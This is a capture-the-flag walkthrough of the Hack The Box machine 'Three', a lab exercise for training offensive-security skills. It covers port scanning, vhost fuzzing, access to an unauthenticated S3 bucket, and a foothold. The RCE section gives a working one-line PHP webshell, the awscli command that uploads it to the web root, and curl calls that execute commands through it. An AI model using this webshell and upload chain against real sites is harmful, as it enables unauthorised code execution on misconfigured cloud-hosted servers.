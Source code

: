 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Three

## Summary

## Summary

As one of Starting Point's Tier 1 boxes, [Three](https://app.hackthebox.com/starting-point) offers a direct approach to **web fuzzing** and **AWS S3** exploration. By initially **enumerating a domain name** through the webpage and proceeding to fuzz it, we uncover an **S3 bucket**. Further enumeration exposes **misconfigurations** in the S3 bucket, granting us access to its contents and the ability to upload files. Leveraging this vulnerability, we successfully upload a **webshell** and gain control over the `flag.txt` file, ultimately compromising the system.

<table><thead><tr><th width="88" align="right">Step</th><th width="235">Action</th><th width="153">Tool</th><th>Gained</th></tr></thead><tbody><tr><td align="right">1</td><td>Web server enumeration</td><td>Browser</td><td>Domain name</td></tr><tr><td align="right">2</td><td>Fuzzing</td><td><a href="broken-reference">gobuster</a></td><td>S3 bucket</td></tr><tr><td align="right">3</td><td>AWS Enumeration</td><td><a href="../../tl-dr/cloud/cloud-tools/aws.md#usage">awscli</a></td><td>Foothold path</td></tr><tr><td align="right">4</td><td>Webshell upload</td><td><a href="../../tl-dr/cloud/cloud-tools/aws.md#usage">awscli</a>, <a href="../../web/web-tools/curl.md">curl</a>, <a href="broken-reference">jq</a></td><td>Foothold</td></tr></tbody></table>

## Recon

### Port Scan

Let's start with a port-scan using [Nmap](broken-reference).

```bash
$ sudo nmap -T4 -open -sC -sV 10.129.206.82

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: The Toppers
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are just 2 services listening:

1. An SSH service on port `22`, but we don't have credentials to use it.
2. An Apache web server on port `80` which probably be the focus on this box.

### Web Server Enumeration

By visiting the IP address via our browser we encounter a static site; nothing really works. The only useful thing there is a domain name (`thetoppers.htb`) on the `CONTACT` page (Figure 1).

<figure><img src="../../.gitbook/assets/three_contact.png" alt=""><figcaption><p>Figure 1: The <code>thetoppers.htb</code> domain on the <code>CONTACT</code> page.</p></figcaption></figure>

Before moving forward, we will add it on our local DNS file (`/etc/hosts`) and we will also check what technologies this site uses.

{% code overflow="wrap" %}
```bash
# Confirming that the domain was added to our local file
$ grep toppers /etc/hosts
10.129.206.82   thetoppers.htb
# Checking the technologies used on the site
$ whatweb thetoppers.htb
http://thetoppers.htb [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], Email[mail@thetoppers.htb], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.129.206.82], Script, Title[The Toppers]
```
{% endcode %}

### Fuzzing

Next, we can start our [fuzzing](../../web/dirbusting.md) scans. We will check for potential subdirectories, subdomains, and vhosts.

{% code overflow="wrap" %}
```bash
# Scanning for subdirectories
gobuster dir -u http://thetoppers.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php
# Scanning for subdomains
gobuster dns -d thetoppers.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -i
# Scanning for virtual hosts
gobuster vhost -u http://thetoppers.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt --append-domain
```
{% endcode %}

The scan for subdirectories comes back with only the homepage (`/index.php`) and an `/images` directory, whereas the vhost scan returns nothing. Luckily, we were able to find out some vhosts (Figure 2).

<figure><img src="../../.gitbook/assets/three_vhosts.png" alt=""><figcaption><p>Figure 2: Scanning for virtual hosts with <code>gobuster</code>.</p></figcaption></figure>

Before trying to access `s3.thetoppers.htb` we will need to first add it on our `/etc/hosts` file.

```bash
$ grep thetop /etc/hosts
10.129.206.82   thetoppers.htb s3.thetoppers.htb
```

### Foothold

### AWS Enumeration

`S3` is the [Amazon's Simple Storage Service (AWS S3)](https://aws.amazon.com/s3/) and there are specific tools to interact with it, such as [`awscli`](../../tl-dr/cloud/cloud-tools/aws.md). Before interacting with an S3 bucket we need to configure our connection, typically, using the AWS Access and Secret keys. However, an S3 bucket can also be misconfigured, i.e., do not check for authentication. If the latter case is true, we can configure it using anything we wish.

After doing that (Figure 3.1), we can proceed on listing the S3 buckets that are available on the server (Figure 3.2), and if we find one, what's in it (Figure 3.3).

```bash
# Configuring AWS connection
$ aws configure
AWS Access Key ID [****************temp]: temp
AWS Secret Access Key [****************temp]: temp
Default region name [temp]: temp
Default output format [temp]: temp

# Listing all s3 server buckets
$ aws --endpoint=http://s3.thetoppers.htb s3 ls
2024-04-29 06:46:43 thetoppers.htb

# Listing all files within the specified s3 bucket
$ aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
                           PRE images/
2024-04-29 06:46:43          0 .htaccess
2024-04-29 06:46:43      11952 index.php
```

<figure><img src="../../.gitbook/assets/three_aws_listings.png" alt=""><figcaption><p>Figure 3: Configuring and exploring the S3 vhost. </p></figcaption></figure>

We notice that the `s3://thetoppers.htb` bucket contains the `index.php` file and the `images/` directory; the same files we found during our [directory scan](three.md#fuzzing) before. Thus, we can safely infer that this is the webroot (`http://thetoppers.htb`) of the static web site.

### RCE[^1]

Since we know the site's webroot as well as the programming language used (based on the `index.php` file), we can try to create a PHP file (`shell.php`) containing a [PHP webshell](broken-reference), upload it on the S3 bucket, and try to interact with it (Figure 4).

```php
<?php system($_GET['cmd']); ?>
```

```bash
# Uploading our web shell to the S3 bucket
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
# Interacting with the web shell
curl http://thetoppers.htb/shell.php?cmd=id
curl http://thetoppers.htb/shell.php?cmd=pwd
```

<figure><img src="../../.gitbook/assets/three_webshell.png" alt=""><figcaption><p>Figure 4: Uploading the web shell file to S3 and interacting with it. </p></figcaption></figure>

We could continue by uploading a reverse shell script in addition to the web shell, but for the sake of simplicity we won't. In order to find the `flag.txt` file, we will need to explore the host using commands which includes spaces, such as `ls ../` (Figure 5.1).  For achieving that through our webshell, we will need to [URL-encode](../../tools/crypto.md#url) our commands, in this case use the `+` symbol instead of space (Figure 5.2). We can also use a more "advanced" technique including bash command substitution, `jq` and a pipe (`|`) to pass any command we like "directly" to it (Figure 5.3).

<figure><img src="../../.gitbook/assets/three_flag.png" alt=""><figcaption><p>Figure 5: Using URL-encoding to find and read the flag.</p></figcaption></figure>

[^1]: Remote Code Execution
